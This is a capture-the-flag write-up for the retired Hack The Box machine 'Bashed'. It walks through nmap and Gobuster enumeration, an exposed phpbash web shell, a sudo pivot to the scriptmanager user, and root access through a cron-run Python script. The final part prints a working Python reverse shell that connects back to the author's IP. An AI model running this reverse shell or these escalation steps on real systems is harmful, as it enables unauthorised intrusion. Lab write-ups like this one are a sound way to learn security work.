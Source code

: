 # Bashed

This is the write-up for the box Bashed that got retired at the 28th April 2018.
My IP address was 10.10.14.39 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.68    bashed.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bashed.nmap 10.10.10.68
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## Checking HTTP (Port 80)

On the web page there is an article about a tool called **phpbash** and that it was developed on the same server.

![Phpbash article](bashed_web-1.png)

So lets use **Gobuster** to look for hidden paths and find this tool:
```markdown
gobuster -u http://10.10.10.68 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following paths that could be interesting:
- uploads
- php
- dev

In the _/dev_ directory is the tool **phpbash.php** that starts a web shell in the browser:

![Web shell](bashed_web-2.png)

Now we can start a reverse shell to our local client.

## Privilege Escalation

When looking at the root permissions of the user _www-data_ with `sudo -l`, it displays that we can run everything as _scriptmanager_ without a password:
```markdown
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can start a session as the user _scriptmanager_:
```markdown
sudo -u scriptmanager bash
```

### Privilege Escalation to root

Now we are the user _scriptmanager_ and looking at which directories are owned by this user, there is the directory _/scripts_ at the root path.
```markdown
find / -type d -group scriptmanager -user scriptmanager 2>/dev/null
```

In this directory there are two files with the following permissions and content:
```markdown
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Feb  5 10:40 test.txt
```

```markdown
# test.txt

testing 123!
```

```python
# test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The Python script writes a string into the text file which refreshes its date every minute.
As the Python script file belongs to _scriptmanager_, we can write to it and because the text file is owned by root, it is possible to exploit this by modifying the script to execute a reverse shell.
```python
# test.py

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.39",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After waiting for one minute, the script gets executed and the listener on my IP and port 9002 starts a session as root!
